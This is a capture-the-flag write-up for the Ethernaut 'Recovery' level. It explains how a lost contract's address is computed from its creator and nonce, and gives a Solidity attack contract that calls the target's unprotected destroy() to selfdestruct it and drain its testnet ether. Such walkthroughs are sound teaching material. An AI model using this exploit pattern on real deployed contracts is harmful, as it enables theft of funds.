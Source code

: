 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel17.svg">


# Target Contract Review

Given contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

Challenge's message:

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address. This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

This challenge is quite easy. Basically, the Recovery contract generates a token with the bits of help of the SimpleToken contract. The important thing about the SimpleToken contract is it has a **destroy()** function which selfdestruct the contract addresses. 


## Contract Address Calculating

The address for an Ethereum contract is deterministically computed from the address of its creator (sender) and how many transactions the creator has sent (nonce). The sender and nonce are RLP encoded and then hashed with Keccak-256. Here is an example calculator code in Solidity.

```solidity
bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01)));
address addr = address(uint160(uint256(hash)));
```

First, it finds the hash and computed the contract address. More about [this topic.](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)

# Subverting

The only thing we must to do is calculate lost contract's address and selfdestruct it. Here is our short attack contract.

```solidity
pragma solidity ^0.8.20;

import './Recovery.sol';

contract Attack{

    SimpleToken target;
    address public addr;

    constructor(address payable _challenge){
        bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _challenge, bytes1(0x01)));
        addr = address(uint160(uint256(hash)));
        target = SimpleToken(payable(addr));
    }

    function attack()external{
        target.destroy(payable(msg.sender));
    }

}
```

Deploy the attack contract with target contract's address. See the transaction on [etherscan.](https://sepolia.etherscan.io/tx/0x0e33934f10ffdc3871d13cf4f9d743f320c1e9c57a89a58145482b1d05990d8b)

We find the lost contract's address. It is 0x28f5b51501A6aAaE8007269761653320b3311355.

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Recovery/src/addr.png"></p>

Let's check it's balance on [etherscan.](https://sepolia.etherscan.io/address/0x28f5b51501A6aAaE8007269761653320b3311355)

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Recovery/src/contract_balance.png"></p>

Call attack function and check the contract's balance again. And passed the challenge! See the transaction on [etherscan.](https://sepolia.etherscan.io/tx/0x31de724d57975cc3a434ac8f5ffb9b6155a386929d530bb59080878412b8bbb7)

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Recovery/src/new_contract_balance.png"></p>


Ethernaut's message:

> Contract addresses are deterministic and are calculated by keccak256(address, nonce) where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions). Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.


**_by wasny0ps_**

